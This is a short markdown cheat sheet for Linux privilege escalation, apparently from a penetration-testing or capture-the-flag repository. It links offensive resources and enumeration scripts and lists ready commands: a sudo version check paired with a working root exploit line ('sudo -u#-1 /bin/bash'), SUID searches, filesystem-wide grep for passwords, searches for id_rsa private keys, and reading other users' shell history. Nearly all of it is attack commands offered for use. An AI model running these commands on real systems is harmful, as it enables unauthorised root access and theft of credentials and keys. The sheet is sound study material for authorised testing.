 ### Valuable links and sources
```
https://book.hacktricks.xyz/
https://book.hacktricks.xyz/linux-unix/privilege-escalation
https://gtfobins.github.io/
https://www.revshells.com/
https://ippsec.rocks/?#
https://github.com/Snoopy-Sec/Localroot-ALL-CVE
https://guif.re/linuxeop#Exploits%20worth%20running
```

### Usefull Scripts
```
linpeas.sh  #https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
les.sh      #https://github.com/mzet-/linux-exploit-suggester
LinEnum.sh  #https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
pspy        #https://github.com/DominicBreuker/pspy
```

### Overall System Info & Architecture
```
uname -a
cat /etc/issue
```

### Check for your sudo privileges
```
sudo -l
```
### Check if your sudo version is vulnerable
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]" #check
sudo -u#-1 /bin/bash                                                                         #exploit 
```

### Always check for hidden files
```
ls -la
```

### Find SUID files
```
find / -perm -u=s -type f 2>/dev/null
```

### Look for stored credentials & private keys
```
locate 'password' | more #will look for files named "password"
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find / -name id_rsa 2> /dev/null
```

### Find processes running with root privileges
```
ps aux
ps aux |grep root
```

### Check the history of previously used commands
```
history
cat ~/.zsh_history
cat ~/.bash_history
```


